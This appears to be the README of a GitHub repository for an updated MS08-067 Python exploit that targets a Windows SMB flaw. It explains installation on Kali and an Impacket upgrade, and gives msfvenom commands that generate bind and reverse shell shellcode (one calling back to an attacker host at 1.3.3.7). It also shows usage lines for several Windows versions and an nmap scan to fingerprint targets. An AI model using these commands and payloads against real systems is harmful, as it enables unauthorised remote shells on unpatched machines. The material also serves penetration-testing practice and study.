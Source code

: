 # MS08_067 Python Exploit Script - Updated 2018

This is an updated version of the super old MS08-067 Python exploit script.  It implements some fixes to allow easy exploitation on a wider range of configurations.

Cloned and edited from this repository:  
https://github.com/jivoi/pentest/

## Installation on Kali

`git clone https://github.com/andyacer/ms08_067/`

**You'll need to update Kali's Impacket version to 0_9_17**

Here in 2018, Kali's package management is on an old version of Impacket.  Here's the steps on how to fix it:

```
git clone --branch impacket_0_9_17 --single-branch https://github.com/CoreSecurity/impacket/
cd impacket
pip install .
```

## Update Notes

```diff
+ Added support for selecting a target port at the command line.  It seemed that only 445 was previously supported.
+ Changed library calls to correctly establish a NetBIOS session for SMB transport
+ Changed shellcode handling to allow for variable length shellcode. Just cut and paste into this source file.
```

## Generating Shellcode

Example msfvenom commands to generate shellcode.  Just paste these into the file which you'll edit after downloading.  'Cause you're an awesome hacker like that.

```
msfvenom -p windows/shell_bind_tcp RHOST=192.168.1.1 LPORT=443 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f c -a x86 --platform windows

msfvenom -p windows/shell_reverse_tcp LHOST=1.3.3.7 LPORT=443 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f c -a x86 --platform windows

msfvenom -p windows/shell_reverse_tcp LHOST=1.3.3.7 LPORT=62000 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f c -a x86 --platform windows
```
## Usage

Usage: ms08_067_2018.py <target ip> <os #> <Port #>

* ms08_067_2018.py 192.168.1.1 1 445 -- for Windows XP SP0/SP1 Universal, port 445
* ms08_067_2018.py 192.168.1.1 2 139 -- for Windows 2000 Universal, port 139 (445 could also be used)
* ms08_067_2018.py 192.168.1.1 3 445 -- for Windows 2003 SP0 Universal
* ms08_067_2018.py 192.168.1.1 4 445 -- for Windows 2003 SP1 English
* ms08_067_2018.py 192.168.1.1 5 445 -- for Windows XP SP3 French (NX)
* ms08_067_2018.py 192.168.1.1 6 445 -- for Windows XP SP3 English (NX)
* ms08_067_2018.py 192.168.1.1 7 445 -- for Windows XP SP3 English (AlwaysOn NX)

Also: nmap has a good OS discovery script that pairs well with this exploit:  
nmap -p 139,445 --script-args=unsafe=1 --script /usr/share/nmap/scripts/smb-os-discovery 192.168.1.1
